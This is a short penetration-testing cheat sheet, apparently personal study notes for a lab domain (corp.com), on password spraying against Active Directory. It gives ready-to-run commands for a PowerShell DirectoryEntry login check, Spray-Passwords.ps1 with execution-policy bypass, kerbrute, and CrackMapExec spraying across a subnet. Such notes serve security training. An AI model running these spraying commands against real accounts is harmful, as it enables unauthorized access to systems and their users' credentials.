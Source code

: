 # Password Attacks

## Windows

Get account policy:

```powershell
net accounts
```

### Spray-Passwords.ps1

Authenticating using DirectoryEntry:

{% code overflow="wrap" %}
```powershell
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()

$PDC = ($domainObj.PdcRoleOwner).Name

$SearchString = "LDAP://"

$SearchString += $PDC + "/"

$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"

$SearchString += $DistinguishedName

New-Object System.DirectoryServices.DirectoryEntry($SearchString, "pete", "Nexus123!")
```
{% endcode %}

* If the password for the user account is <mark style="color:green;">correct</mark>, the object creation will be successful
* If the password is <mark style="color:red;">invalid</mark>, no object will be created and we will receive an exception

This can be used for password spraying: [**Spray-Passwords.ps1**](https://web.archive.org/web/20220225190046/https://github.com/ZilentJack/Spray-Passwords/blob/master/Spray-Passwords.ps1)

```powershell
powershell -ep bypass
.\Spray-Passwords.ps1 -Pass Nexus123! -Admin
```

* -Pass: set password to test
* -Admin: test admin accounts

### Kerbrute

> cross platform tool

Using kerbrute to attack user accounts

{% code overflow="wrap" %}
```powershell
.\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"
```
{% endcode %}



## Linux

Password spraying attack on SMB using CrackMapExec

{% code overflow="wrap" %}
```shell
crackmapexec smb 192.168.50.75 -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success
```
{% endcode %}

* (<mark style="color:red;">Pwn3d!</mark>) = admin user&#x20;

Spray creds against all domain joined machines:

{% code overflow="wrap" %}
```shell
crackmapexec smb 192.168.241.0/24 -u pete -p 'Nexus123!' -d corp.com --continue-on-success
```
{% endcode %}
